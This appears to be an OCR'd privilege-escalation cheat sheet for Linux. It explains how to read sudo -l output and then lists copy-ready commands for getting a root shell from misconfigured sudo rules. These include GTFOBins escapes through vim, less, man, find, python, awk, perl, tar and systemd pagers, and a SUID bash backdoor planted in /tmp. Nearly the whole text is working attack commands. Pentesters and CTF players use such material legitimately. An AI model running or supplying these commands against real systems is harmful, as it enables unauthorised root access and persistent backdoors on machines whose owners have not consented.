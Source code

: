 Interpreting sudo -l output
- PASSWD: You’ll be prompted for your user password.
- NOPASSWD: You can run that command without a password.
- (root) or (ALL): runas specification; root means you can attempt root shell escapes.
- env_reset/secure_path: sanitized environment; some env vars may still be kept if listed (env_keep+=...).
- Look for wildcards (*) and sudoedit (-e) allowances.

Quick wins (if present)
```
# If you see: (root) NOPASSWD: ALL
sudo -s
id

# If you see: (root) NOPASSWD: /bin/bash (or /bin/sh)
sudo /bin/bash -p
id
```

GTFOBins: common whitelisted programs
```
# vim / vi
sudo vim -c ':set shell=/bin/sh' -c ':shell'
# or
sudo vim -c ':!/bin/sh'

# less
sudo less /etc/hosts
# Inside less, press: !/bin/sh

# man
sudo man man
# Inside man (pager = less), press: !/bin/sh

# find
sudo find / -exec /bin/sh \; -quit

# python
sudo python -c 'import os; os.system("/bin/sh")'
# or python3 if present
sudo python3 -c 'import os; os.system("/bin/sh")'

# awk
sudo awk 'BEGIN {system("/bin/sh")}'

# perl
sudo perl -e 'exec "/bin/sh";'

# tar
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# cp + SUID backdoor approach (if both allowed or cp allowed as root)
sudo cp /bin/bash /tmp/bash && sudo chmod +s /tmp/bash
/tmp/bash -p
id

# systemctl/journalctl (pager shell)
sudo systemctl status ssh
# When the less pager opens, press: !/bin/sh
sudo journalctl
# When pager opens, press: !/bin/sh
```
